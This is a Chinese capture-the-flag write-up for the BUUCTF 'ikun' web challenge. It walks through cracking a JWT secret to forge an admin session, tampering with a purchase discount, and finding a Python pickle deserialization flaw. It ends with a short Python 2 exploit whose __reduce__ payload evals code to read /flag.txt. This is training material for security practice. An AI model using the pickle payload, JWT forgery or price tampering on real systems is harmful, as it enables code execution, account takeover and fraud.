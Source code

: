 ﻿---
title: BUUCTF(四)
categories: ctf题目
---
# 前言
BUUCTF web 第三页 上半部分

# [CISCN2019 华北赛区 Day1 Web2]ikun

- Python反序列化 pickle

[浅谈python反序列化漏洞_Lethe's Blog-CSDN博客_python反序列化漏洞](https://blog.csdn.net/qq_42181428/article/details/103143526)

[Python安全之反序列化——pickle/cPickle - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1637531)


--

注册登录

![](https://img-blog.csdnimg.cn/a02f7f3418aa483baa142d2d5fd2cca9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包发现jwt，破解出密钥

![](https://img-blog.csdnimg.cn/33442c92c89f4add87de4860db486784.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
修改admin，替换jwt

![](https://img-blog.csdnimg.cn/4121eb45c41a49e1877e4ea37dec83ea.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
看到提示要买v6

![](https://img-blog.csdnimg.cn/100c09994fb1421bb75aa4bc27b2cdb5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
抓包修改折扣

![](https://img-blog.csdnimg.cn/185ab8e74966492d9e1c454792ca38be.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
发现后门

![](https://img-blog.csdnimg.cn/15d09020ddcb4125a5490aed793efcd5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
下载
发现路径

![](https://img-blog.csdnimg.cn/5a6a95802eb24812b85a8102728fb8a2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
跟进路由在代码中发现 `pickle.loads(urllib.unquote(become))` 很明显的 Python反序列化。

![](https://img-blog.csdnimg.cn/59f3eafbc25b48e9a6cd03d58d639e12.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

exp:

```
import os
import pickle
import urllib

class exp(object):
    def __reduce__(self):
        return (eval,("open('/flag.txt').read()",))

a=exp()
s=pickle.dumps(a)
print urllib.quote(s)
```
